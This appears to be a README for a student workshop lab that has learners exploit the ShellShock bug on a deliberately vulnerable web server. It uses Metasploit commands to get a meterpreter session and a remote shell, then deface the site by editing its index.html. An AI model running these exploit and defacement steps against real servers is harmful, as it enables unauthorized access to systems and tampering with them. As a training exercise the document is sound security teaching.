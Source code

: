 # RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
    - Select 'Network Adapter' and change it to 'Bridged'
- Hit the Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`

![shell](shell.PNG)

## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`

![pwd](whoamiandpwd.PNG)

Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`

![cdandls](cdandls.PNG)

The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`

![echo](addyourname.PNG)

Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)
